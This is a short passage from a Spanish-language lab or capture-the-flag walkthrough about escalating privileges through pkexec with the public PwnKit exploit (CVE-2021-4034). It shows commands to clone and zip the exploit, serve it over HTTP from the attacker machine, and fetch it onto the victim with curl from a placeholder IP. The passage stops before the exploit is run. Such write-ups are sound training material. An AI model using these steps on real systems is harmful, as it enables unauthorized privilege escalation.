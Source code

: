 ![gobuster](Imagenes/29.png)

Vemos que podemos ejecutar pkexec, cosa curiosa y que ademas nos puede permitir escalar privilegios, así que vamos a probarlo:

https://github.com/berdav/CVE-2021-4034

Nos clonamos el repositorio y lo pasamos a la máquina mediante http por python y curl:

- En la máquina atacante:

```
git clone https://github.com/berdav/CVE-2021-4034
```

```
zip -r comprimido.zip CVE-2021-4034
```

```
python -m http.server 80
```

- En la máquina víctima

```
curl http://<IP>/comprimido.zip -o comprimido.zip
```
